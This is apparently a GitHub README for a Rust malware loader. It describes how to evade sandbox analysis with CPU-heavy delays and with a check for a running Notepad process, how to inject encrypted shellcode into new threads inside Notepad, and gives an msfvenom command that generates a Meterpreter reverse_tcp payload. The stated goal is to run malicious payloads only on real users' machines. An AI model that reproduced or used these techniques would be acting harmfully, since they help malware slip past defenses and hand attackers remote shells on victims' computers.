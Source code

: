 ## **Bypassing Sandbox Detection Test**

As is well known, it is not realistic to achieve delays using the `sleep` function in a sandbox environment. Sandboxes often detect and flag such behavior as suspicious or evasive.

Instead, more effective techniques involve:

- Performing **CPU-intensive calculations**
- Implementing **inefficient algorithms**
- Waiting for **specific instructions in a loop** to bypass detection

These methods simulate legitimate resource consumption and delay execution without triggering common sandbox heuristics.

### **Triggering Execution Based on Notepad Detection**

In many sandbox environments, there is usually **no user interaction or typical desktop activity**, such as opening Notepad (`notepad.exe`). This behavioral difference can be leveraged for evasion.

We utilize this by:

1. Using **Notepad** as a designated indicator of a real user environment
2. Monitoring for the presence of the Notepad process
3. Once detected, executing shellcode through new **threads** within the Notepad process

This technique helps ensure that malicious payloads are only executed in environments that closely resemble real user systems — not in automated sandboxes.

### **Usage Instructions**

#### 1. Generate Shellcode with `msfvenom`

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f rust
```

#### 2. Encrypt the Shellcode by enc/src/main.rs

#### 3. Update the run/src/main.rs shellcode

#### 4. Run cargo build



----------------------------------------------------------------------------------
![1](https://github.com/user-attachments/assets/e77ba48a-fa39-42ed-9198-ba8ae39e1ca3)
![2](https://github.com/user-attachments/assets/2aede2e8-60dc-48d8-a91b-8335446677ec)
![3](https://github.com/user-attachments/assets/337a20b0-1d55-4199-af1a-25d246c77c63)

-----------------------------------------------------------------------------------



https://github.com/user-attachments/assets/ad541397-8f9e-4b71-8b1d-3f087c25011a




-----------------------------------------------------------------------------------

<br />

<h2>References</h2>

### Very good tutorial and inspiration 🦀

[RustRedOps](https://github.com/joaoviictorti/RustRedOps/tree/main)


  
